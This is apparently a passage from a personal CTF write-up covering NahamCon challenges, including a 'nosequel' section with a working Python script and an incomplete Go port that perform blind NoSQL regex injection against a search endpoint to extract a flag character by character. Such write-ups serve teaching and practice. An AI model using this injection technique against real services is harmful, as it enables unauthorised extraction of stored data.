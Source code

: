 So the SAST tools are **very** useful, and the AI tools can be useful as well -- their answers just need to be fully vetted before exploring further down the path they suggest.
#### what i've done to remedy this

- For small-projects are or if I have the availability of extra tokens, I'll use 1-2 AI's to take an incremental crack at crawling source code that is available.
- Semgrep + Snyk + CodeQL will be run on provided source code.

---
### method in the madness
**Tags:** #ui #methods
**Reviewed:** ✅
#### solution
- test all input methods (`POST, PUT, GET, etc.`) and fields will appear on the main page in the UI.

I can't actually find it on the CTF page, and there's next to no discussion on the Discord server about it, so not 100% on this one.

---
### nosequel
**Tags:** #nosql #sql 
**Reviewed:** ✅
#### solution
The original vulnerability was at the `/search` endpoint. Here is a concise script that Hanto posted in the Discord:

```python
#!/usr/bin/env python3
import requests
flag = ''
while '}' not in flag:
    for c in 'flag{0123456789bcde}':
        if 'Pattern matched' in requests.post('http://challenge.nahamcon.com:32648/search', {'query': f'flag: {{$regex: ^{flag + c}.*$}}', 'collection': 'flags'}).text:
            flag += c
            break
print(flag)
```

It was essentially just blind sequel injection via a NoSQL DB that could have the flag enumerated from it using conditional responses (*pattern found vs. failure*). 

Example Untested Go Code:
```go
package main

import (
	"fmt"
	"io/ioutil"
	"net/http"
	"net/url"
	"strings"
)

func main() {
	flag := ""
	charset := "flag{0123456789bcde}"
	targetURL := "http://challenge.nahamcon.com:32648/search"

	for !strings.Contains(flag, "}") {
		for _, char := range charset {
			query := fmt.Sprintf("flag: {$regex: ^%s%c.*$}", flag, char)
			data := url.Values{}
```